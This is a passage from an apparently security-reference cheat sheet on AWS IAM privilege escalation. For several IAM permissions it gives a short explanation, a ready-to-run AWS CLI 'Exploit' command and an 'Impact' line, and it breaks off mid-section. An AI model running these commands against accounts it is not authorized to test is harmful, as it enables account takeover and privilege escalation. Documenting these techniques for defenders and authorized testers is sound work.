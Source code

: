 **Exploit for Creation:**

```bash
aws iam create-login-profile --user-name target_user --no-password-reset-required \
    --password '<password>'
```

**Exploit for Update:**

```bash
aws iam update-login-profile --user-name target_user --no-password-reset-required \
    --password '<password>'
```

**Impact:** Direct privilege escalation by logging in as "any" user.

### **`iam:UpdateAccessKey`**

Allows enabling a disabled access key, potentially leading to unauthorized access if the attacker possesses the disabled key.

**Exploit:**

```bash
aws iam update-access-key --access-key-id <ACCESS_KEY_ID> --status Active --user-name <username>
```

**Impact:** Direct privilege escalation by reactivating access keys.

### **`iam:CreateServiceSpecificCredential` | `iam:ResetServiceSpecificCredential`**

Enables generating or resetting credentials for specific AWS services (e.g., CodeCommit, Amazon Keyspaces), inheriting the permissions of the associated user.

**Exploit for Creation:**

```bash
aws iam create-service-specific-credential --user-name <username> --service-name <service>
```

**Exploit for Reset:**

```bash
aws iam reset-service-specific-credential --service-specific-credential-id <credential_id>
```

**Impact:** Direct privilege escalation within the user's service permissions.

### **`iam:AttachUserPolicy` || `iam:AttachGroupPolicy`**

Allows attaching policies to users or groups, directly escalating privileges by inheriting the permissions of the attached policy.

**Exploit for User:**

```bash
aws iam attach-user-policy --user-name <username> --policy-arn "<policy_arn>"
```

**Exploit for Group:**
